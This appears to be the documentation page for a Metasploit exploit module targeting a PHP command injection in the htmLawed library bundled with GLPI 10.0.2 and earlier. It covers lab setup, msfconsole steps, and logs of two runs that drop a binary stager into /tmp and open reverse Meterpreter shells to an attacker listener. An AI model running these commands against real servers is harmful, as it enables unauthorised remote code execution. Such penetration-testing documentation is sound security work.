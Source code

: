## Vulnerable Application

GLPI versions 10.0.2 and below expose a vulnerable version on htmLawed which
has a php command injection opportunity.

### Installation Instructions
Taken verbatim from https://www.imaginelinux.com/install-glpi-ubuntu/
Using  Ubuntu x64 Desktop 20.04.1
1. ```sudo apt install apache2 php7.4 php7.4-curl php7.4-zip php7.4-gd php7.4-intl \
   php7.4-intl php-pear php7.4-imagick php-bz2 php7.4-imap php-memcache php7.4-pspell \
   php7.4-tidy php7.4-xmlrpc php7.4-xsl php7.4-mbstring php7.4-ldap php-cas php-apcu \
   libapache2-mod-php7.4 php7.4-mysql mariadb-server```
2. `sudo systemctl status apache2`
3. `sudo systemctl status mariadb`
4. `sudo mysql_secure_installation` # Answer 'yes' to everything
5. `sudo mysql -u root -p`
6. `CREATE DATABASE glpidb;`
7. `GRANT ALL PRIVILEGES ON glpidb.* TO 'user'@'localhost' IDENTIFIED BY 'password';`
8. `FLUSH PRIVILEGES;`
9. `exit;`
10. Grab a vulnerable version here: https://github.com/glpi-project/glpi/releases/
11. Extract that vulnerable version and move the files to `/var/www/html/glpi/`
12. `sudo chmod 755 -R /var/www/html/`
13. `sudo chown www-data:www-data -R /var/www/html/`
14. Create a virtual host if you want `sudo nano /etc/apache2/sites-available/glpi.conf`
```<VirtualHost *:80>
   ServerAdmin admin@your_domain.com
   DocumentRoot /var/www/html/glpi
   ServerName your-domain.com

   <Directory /var/www/html/glpi>
        Options FollowSymlinks
        AllowOverride All
        Require all granted
   </Directory>

   ErrorLog ${APACHE_LOG_DIR}/your-domain.com_error.log
   CustomLog ${APACHE_LOG_DIR}/your-domain.com_access.log combined

</VirtualHost>
```

15. `sudo ln -s /etc/apache2/sites-available/glpi.conf /etc/apache2/sites-enabled/glpi.conf`
16. `sudo a2enmod rewrite`
17. `sudo systemctl restart apache2`
18. Visit the new server at http://<yourhost>/glpi
19. Follow setup instructions on screen

## Options
No extra options to be set, but make sure the uripath is correct

## Verification Steps
* Do: `msfconsole`
* Do: `use exploit/linux/http/glpi_htmlawed_php_injection`
* Do: `set upripath <uripath>`
* Do: `set rhost <rhost>`
* Do: `set lhost <lhost>`
* Do: **Verify** you get a session

## Scenarios
### Using GLPI 9.5.9 running on Ubuntu 20.04.1 x64
#### Linux Dropper
```
msf6 exploit(linux/http/glpi_htmlawed_php_injection) > show options

Module options (exploit/linux/http/glpi_htmlawed_php_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.5.132.190     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH  /glpi/glpi/      no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.109     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (Dropper)


msf6 exploit(linux/http/glpi_htmlawed_php_injection) > run

[*] Started reverse TCP handler on 10.5.135.109:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] token = 4578e2880dfc8091a10c38ea60ead228
[*] sid = vitn15j8j9f0lljrfu7daq9es8
[+] The target appears to be vulnerable.
[*] Executing Linux (Dropper) for linux/x64/meterpreter/reverse_tcp
[*] Generated command stager: ["printf '\\177\\105\\114\\106\\2\\1\\1\\0\\0\\0\\0\\0\\0\\0\\0\\0\\2\\0\\76\\0\\1\\0\\0\\0\\170\\0\\100\\0\\0\\0\\0\\0\\100\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\100\\0\\70\\0\\1\\0\\0\\0\\0\\0\\0\\0\\1\\0\\0\\0\\7\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\100\\0\\0\\0\\0\\0\\0\\0\\100\\0\\0\\0\\0\\0\\372\\0\\0\\0\\0\\0\\0\\0\\174\\1\\0\\0\\0\\0\\0\\0\\0\\20\\0\\0\\0\\0\\0\\0\\110\\61\\377\\152\\11\\130\\231\\266\\20\\110\\211\\326\\115\\61\\311\\152\\42\\101\\132\\262\\7\\17\\5\\110\\205\\300\\170\\121\\152\\12\\101\\131\\120\\152\\51\\130\\231\\152\\2\\137\\152\\1\\136\\17\\5\\110\\205\\300\\170\\73\\110\\227\\110\\271\\2\\0\\21\\134\\12\\5\\207\\155\\121\\110\\211\\346\\152\\20\\132\\152\\52\\130\\17\\5\\131\\110\\205\\300\\171\\45\\111\\377\\311\\164\\30\\127\\152\\43\\130\\152\\0\\152\\5\\110\\211\\347\\110\\61\\366\\17\\5\\131\\131\\137\\110\\205\\300\\171\\307\\152\\74\\130\\152\\1\\137\\17\\5\\136\\152\\176\\132\\17\\5\\110\\205\\300\\170\\355\\377\\346'>>/tmp/bLaTw ; chmod +x /tmp/bLaTw ; /tmp/bLaTw ; rm -f /tmp/bLaTw"]
[*] execute_command
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 10.5.132.190
[*] Command Stager progress - 100.00% done (809/809 bytes)
[*] Meterpreter session 4 opened (10.5.135.109:4444 -> 10.5.132.190:36378) at 2022-10-19 17:05:28 -0500

meterpreter > sysinfo
Computer     : 10.5.132.190
OS           : Ubuntu 20.04 (Linux 5.15.0-52-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
[*] Shutting down Meterpreter...
```

#### Unix Command
```
[*] 10.5.132.190 - Meterpreter session 4 closed.  Reason: Died
smsf6 exploit(linux/http/glpi_htmlawed_php_injection) > set target 0
target => 0
msf6 exploit(linux/http/glpi_htmlawed_php_injection) > set payload cmd/unix/python/meterpreter/reverse_tcp
payload => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/glpi_htmlawed_php_injection) > run

[*] Started reverse TCP handler on 10.5.135.109:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] token = 154f788cf9a685dac8753df78c6c3a1c
[*] sid = 1mcp7n5vq9v6tnqlbm324qk9ce
[+] The target appears to be vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] execute_command
[*] Sending stage (40168 bytes) to 10.5.132.190
[*] Meterpreter session 5 opened (10.5.135.109:4444 -> 10.5.132.190:39622) at 2022-10-19 17:06:36 -0500

meterpreter > sysinfo
Computer        : ubuntu-20041
OS              : Linux 5.15.0-52-generic #58~20.04.1-Ubuntu SMP Thu Oct 13 13:09:46 UTC 2022
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > exit
[*] Shutting down Meterpreter...
```
